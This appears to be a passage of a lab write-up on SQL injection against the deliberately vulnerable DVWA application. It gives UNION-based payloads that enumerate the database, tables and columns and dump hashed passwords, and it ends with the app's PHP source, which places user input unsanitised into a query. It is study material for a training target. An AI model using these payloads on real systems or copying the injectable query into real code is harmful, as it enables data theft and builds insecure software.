 - We can know that the type in database is string.
    - if I type int
        - ![image](https://hackmd.io/_uploads/BJJf_FwuA.png)
        - ![image](https://hackmd.io/_uploads/HJuf_KvdA.png)
    - if I type string
        - ![image](https://hackmd.io/_uploads/rJG9PYw_A.png)
        - ![image](https://hackmd.io/_uploads/H1ziwKwdC.png)
- finding the maximum number of columns
    - not over situation
    ![image](https://hackmd.io/_uploads/Sy8rl3wOR.png)
    - over situation
    ![image](https://hackmd.io/_uploads/HyKVlhwd0.png)
- payload for getting database's name
    ```sql=
    1' UNION SELECT DATABASE(), NULL #
    ```
    ![image](https://hackmd.io/_uploads/BJp3enwuR.png)
- payload for getting table's name
    ```sql=
     1' UNION SELECT TABLE_NAME, NULL FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='dvwa' #
    ```
    ![image](https://hackmd.io/_uploads/HJPJfnvuR.png)
- payload for getting all columns in "users" table(to find more personal information)
    ```sql=
    1' UNION SELECT COLUMN_NAME, NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='dvwa' AND TABLE_NAME='users' #
    ```
    ![image](https://hackmd.io/_uploads/ByXIM2v_C.png)
- payload for getting all columns in the other one
    ```sql=
    1' UNION SELECT COLUMN_NAME, NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='dvwa' AND TABLE_NAME='guestbook' #
    ```
    ![image](https://hackmd.io/_uploads/ry7ymhwOA.png)
- payload for getting password that was hashed
    ```sql=
    1' UNION SELECT password, NULL FROM dvwa.users #
    ```
    ![image](https://hackmd.io/_uploads/SJWP43PO0.png)

The source code for this webpage.
```php=
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

```